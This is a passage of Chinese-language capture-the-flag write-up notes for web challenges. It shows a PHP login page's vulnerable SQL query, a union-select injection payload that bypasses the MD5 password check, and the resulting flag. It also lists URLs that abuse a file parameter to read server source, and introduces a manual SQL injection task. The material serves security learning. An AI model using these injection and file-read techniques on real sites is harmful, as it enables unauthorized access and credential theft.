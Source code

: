 		?>
		
		
		<form method=post action=index.php>
		<input type=text name=user value="Username">
		<input type=password name=pass value="Password">
		<input type=submit>
		</form>
		</body>
		<a href="index.phps">Source</a>
		</html>

		https://wenku.baidu.com/view/3f3e03c84431b90d6c85c7fb.html
		漏洞点$query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));因为前面是post所以就是钥匙式注入（万能密码）跟'程序员的问题'不同，这里用户和密码分开判了所以注释掉pw不可行，只要让$query[pw]的值与pass经过md5之后的值相等即可,而$pass经过md5之后的值是我们可以通过正常输入控制的同时，$query[pw]的值是从$sql提取出来的目标就一句话：只要我们能够修改$sql的值，此题解决。
		
		再次审视注入点：
		$query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
		在这里我们可以利用sql语句，直接给$sql返回一个值。也就是说，不需要访问题里的数据库，只要我们修改了$sql的值，此题解决
		
		http://4.chinalover.sinaapp.com/web6/index.phps
		http://4.chinalover.sinaapp.com/web6/index.php 
		post:user=1' and 0=1 union select "c4ca4238a0b923820dcc509a6f75849b"#&pass=1
		ntcf{union_select_is_wtf} 

		mysql_connect()
		mysql_select_db()
		mysql_fetch_array()
		mysql_query()
		strcasecmp()

32. 综合题2 400
非xss题 但是欢迎留言~
地址：get the flag

http://cms.nuptzj.cn/
view-source:http://cms.nuptzj.cn/index.php?page=1
view-source:http://cms.nuptzj.cn/about.php?file=sm.txt
view-source:http://cms.nuptzj.cn/about.php?file=index.php
view-source:http://cms.nuptzj.cn/about.php?file=say.php
view-source:http://cms.nuptzj.cn/about.php?file=passencode.php
view-source:http://cms.nuptzj.cn/so.php
view-source:http://cms.nuptzj.cn/about.php?file=sm.txt

33. 注入实战1
注入实战1
500

请使用firefox浏览器，并安装hackbar插件（自行百度并熟悉）
目标网址：地址
flag为管理员密码的32位md5(小写)
并且加上nctf{}

手注教程群里面发过。
看不懂的话自行百度"mysql手动注入"查阅相关文章

